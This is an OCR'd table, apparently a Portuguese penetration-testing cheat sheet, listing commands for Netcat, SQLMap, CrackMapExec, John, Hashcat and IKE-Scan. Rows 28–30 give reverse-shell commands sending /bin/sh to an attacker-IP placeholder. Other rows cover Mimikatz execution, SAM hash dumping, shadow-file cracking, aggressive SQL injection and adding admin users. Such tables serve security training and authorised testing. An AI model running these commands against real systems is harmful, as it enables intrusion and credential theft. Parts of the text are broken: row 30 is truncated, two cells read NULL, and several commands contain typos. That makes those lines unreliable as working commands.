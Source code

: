 | 15  | TheHarvester   | Coleta informações de fontes online                                | `theharvester -d <domain> -l <#> -g -b google`                           |
| 16  | Netcat         | Abre um listener                                                   | `nc -lvnp <port #>`                                                      |
| 17  | Netcat         | Conecta a um computador                                            | `nc <attacker ip> <attacker port>`                                       |
| 18  | GoBuster       | Enumera diretórios em um site com um cookie                        | `gobuster dir -u http://<IP> -w <wordlist> -x <extention> -c PHPSESSID=<cookie val>` |
| 19  | SQLMap         | Mapeia SQL em um IP                                                | `sqlmap -r <IP> --batch --force-ssl`                                     |
| 20  | John the Ripper| Usa wordlist para analisar hash                                    | `john <HASHES_FILE> --wordlist=<wordlist>`                               |
| 21  | John the Ripper| Descriptografa arquivo shadow                                      | `john <Unshadowed passwds>`                                              |
| 22  | Unshadow       | Combina arquivos /etc/passwd e /etc/shadow para cracking           | `unshadow <passwd> <shadow>`                                             |
| 23  | Hashcat        | Quebra hashes com uma wordlist                                     | `hashcat -m <hash type> -a 0 -o <output file> <hash file> <wordlist> --force` |
| 26  | Enum4Linux     | Comando básico                                                     | `enum4linux -a <IP>`                                                     |
| 27  | SMBClient      | Conecta a um compartilhamento SMB                                  | `smbclinet //<IP>/<share> -U <username>`                                 |
| 28  | Netcat         | Conecta com shell (`-e` nem sempre funciona)                      | `nc -e /bin/sh <ATTACKING-IP> 80`                                        |
| 29  | Netcat         | Conecta com shell (`-e` nem sempre funciona)                      | `/bin/sh | nc ATTACKING-IP 80`                                           |
| 30  | Netcat         | Feito no alvo                                                      | `rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p`             |
| 31  | SQLMap         | Verifica formulário para injeção SQL                               | `sqlmap -o -u "http://meh.com/form/" –forms`                             |
| 32  | SQLMap         | Varredura SQL automatizada                                         | `sqlmap -u <URL> --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3` |
| 33  | CrackMapExec   | Executa um módulo Mimikatz                                         | `crackmapexec smb <target(s)> -u <username> -p <password> --local-auth -M mimikatz` |
| 34  | CrackMapExec   | Execução de comando                                                | `crackmapexec smb <target(s)> -u ''<username>'' -p ''<password>'' -x whoami` |
| 35  | CrackMapExec   | Verifica usuários logados                                          | `crackmapexec smb <target(s)> -u ''<username>'' -p ''<password>'' --lusers` |
| 36  | CrackMapExec   | Faz dump de hashes SAM locais                                      | `crackmapexec <target(s)> -u ''<uesrname>'' -p ''<password>'' --local-auth --sam` |
| 37  | CrackMapExec   | Login de sessão nula                                               | `crackmapexec smb <target(s)> -u '''' -p ''''`                           |
| 38  | CrackMapExec   | Lista módulos                                                      | NULL                                                                     |
| 39  | CrackMapExec   | Passa o hash                                                       | NULL                                                                     |
| 41  | IKE-Scan       | Ataca chave pré-compartilhada com dicionário                       | `psk-crack -d </path/to/dictionary> <psk file>`                          |
| 42  | IKE-Scan       | Se encontrar um VPN SonicWALL usando modo agressivo, exigirá um ID de grupo, o ID de grupo padrão é GroupVPN | `ike-scan <IP> -A -id GroupVPN`                                          |
| 43  | IKE-Scan       | Para encontrar VPNs em modo agressivo e salvar para uso com psk-crack | `ike-scan <IP> -A -P<file out>`                                          |
| 44  | John the Ripper| Quebra senhas com regras KoreLogic                                 | ` for ruleset in  `grep KoreLogicRules john.conf | cut -d: -f 2 | cut -d\] -f 1`; do ./john --rules:${ruleset} -w:<wordlist> <password_file> ; done` |
| 45  | Nmap           | Cria uma lista de endereços IP                                     | `nmap -sL -n 192.168.1.1-100,102-254 | grep "report for" | cut -d " " -f 5 > ip_list_192.168.1.txt` |
| 46  | Linux commands | Monta compartilhamento NFS no Linux                                | `mount -t nfs server:/share /mnt/point`                                  |
| 47  | PowerShell     | Cria novo usuário                                                  | `net user <username> <password> /ADD`                                    |
| 48  | PowerShell     | Adiciona usuário a um grupo (geralmente Administradores)           | `net localgroup <group> <username> /ADD`                                 |
| 49  | PSK-Crack      | Força bruta com comprimento especificado e caracteres especificados (se deixado em branco, o padrão é 36) | `psk-crack -b <#> --charset="<charlist>" <key file>`                     |
| 50  | PSK-Crack      | Ataque de dicionário                                               | `psk-crack -d <file> <key file>`                                         |
| 51  | SQLMap         | Verifica formulário para injeção SQL                               | `sqlmap -o -u "<url of form>" --forms`                                   |